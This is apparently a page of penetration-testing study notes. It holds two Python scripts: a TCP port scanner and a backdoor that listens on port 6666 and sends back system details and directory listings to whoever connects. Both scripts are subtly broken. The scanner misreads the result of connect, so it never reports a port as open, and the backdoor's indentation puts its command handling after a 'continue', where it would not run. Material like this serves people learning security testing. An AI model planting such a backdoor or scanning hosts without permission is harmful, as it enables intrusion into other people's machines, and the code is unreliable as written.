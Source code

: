 ```python
import socket

target = input('Enter the IP address to scan: ')
portrange = input('Enter the port range to scan (ex 5-200): ')

lowport = int(portrange.split('-')[0])
highport = int(portrange.split('-')[1])

print('Scanning host ', target, 'from port', lowport, 'to port', highport)

for port in range(lowport, highport):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  status = s.connect((target, port))
  if (status ==0):
    print('*** Port', port, ' - OPEN ***')
  else:
      print('*** Port', port, ' - Closed ***')
  s.close()
```

### Backdoor

The program simply binds itself to a NIC and a specific port \(6666\) and then waits for the client commands. Depending on the command received, it will return specific information to the client.

```python
import socket, platform, os

SRV_ADDR = ""
SRV_PORT = 6666

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((SRV_ADDR, SRV_PORT))
s.listen(1)
connection, address = s.accept()

while 1:
  try:
    data = connection.recv(1024)
  except:continue

    if(data.decode('utf-8') == '1'):
      tosend = platform.platform() + " " + platform.machine()
      connection.sendall(tosend.encode())
    elif(data.decode('utf-8') == '2'):
      data = connection.recv(1024)
      try:
        filelist = os.listdir(data.decode('utf-8'))
        tosend = ""
        for x in filelist:
          tosend += "," + x
      except:
        tosend += "Wrong path"
      connection.sendall(tosend.encode())
    elif(data.decode('utf-8') == '0'):
      connection.close()
    connection, address = s.accept()
```
